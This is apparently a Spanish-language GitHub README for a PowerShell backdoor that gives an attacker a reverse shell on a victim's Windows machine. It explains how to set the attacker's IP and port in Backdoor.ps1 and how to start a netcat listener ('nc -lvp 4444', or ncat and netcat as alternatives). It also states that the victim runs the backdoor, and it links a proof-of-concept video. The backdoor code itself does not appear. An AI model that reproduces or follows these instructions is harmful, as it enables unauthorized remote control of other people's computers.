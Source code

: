 # powershell-backdoor

# Backdoor en Powershell para obtener una reverse shell

# Uso:
Primero que nada antes de ejecutar el backdoor debemos de modificar ciertos parametros en el archivo Backdoor.ps1, las variables $address y $port hay que modificarlas, en $address hay que colocar la IP de la maquina atacante, y en $port hay que colocar el puerto por el cual se hara la conexion, y por el que el atacante estara a la escucha.

$address = 'LA DIRECCION IP DEL ATACANTE'

$port = 'EL PUERTO POR EL QUE SE VA A REALIZAR LA CONEXION'

Luego el atacante va a estar a la escucha de una conexion por medio de netcat

nc -lvp "el puerto que se haya colocado"

Ejemplo:

nc -lvp 4444

O si no funciona puedes probar alguno de estos dos:

ncat -lvp 4444

netcat -lvp 4444

Y la victima va a ejecutar el backdoor en su maquina windows

# PoC Backdoor Powershell:

https://user-images.githubusercontent.com/64616891/128221817-3fb9306b-8056-4839-b087-a22ff2e1d8e9.mp4
